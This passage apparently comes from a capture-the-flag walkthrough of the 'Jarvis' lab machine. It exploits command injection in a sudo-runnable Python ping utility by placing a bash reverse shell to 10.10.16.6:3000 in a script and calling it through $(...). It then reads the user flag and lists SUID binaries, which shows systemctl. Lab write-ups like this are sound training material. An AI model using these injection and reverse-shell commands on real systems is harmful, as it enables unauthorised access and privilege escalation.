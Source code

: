 ```
Enter an IP: $(4*4)
$(4*4)
sh: 1: 4*4: not found
Usage: ping [-aAbBdDfhLnOqrRUvV64] [-c count] [-i interval] [-I interface]
            [-m mark] [-M pmtudisc_option] [-l preload] [-p pattern] [-Q tos]
            [-s packetsize] [-S sndbuf] [-t ttl] [-T timestamp_option]
            [-w deadline] [-W timeout] [hop1 ...] destination
Usage: ping -6 [-aAbBdDfhLnOqrRUvV] [-c count] [-i interval] [-I interface]
             [-l preload] [-m mark] [-M pmtudisc_option]
             [-N nodeinfo_option] [-p pattern] [-Q tclass] [-s packetsize]
             [-S sndbuf] [-t ttl] [-T timestamp_option] [-w deadline]
             [-W timeout] destination
```

However, we realize that we may be unable to put any reverse shell payload into our command injection payload as the required characters are all specified in the forbidden characters in the code. 

Hence, what we will do is to put the reverse shell payload into a script and we will execute the with the command injection vulnerability.

```
www-data@jarvis:/tmp$ echo -e '#!/bin/bash\n\n/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.6/3000 0>&1"' > script.sh
www-data@jarvis:/tmp$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(/tmp/script.sh)
$(/tmp/script.sh)
```
### Obtaining user flag
```
pepper@jarvis:/tmp$ cat /home/pepper/user.txt
cat /home/pepper/user.txt
<Redacted user flag>
```

### Finding for SUID bits

Checking for SUID bits, we realize that /bin/systemctl has the SUID bit set.

```
pepper@jarvis:/tmp$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/fusermount
/bin/mount
/bin/ping
/bin/systemctl
/bin/umount
/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
```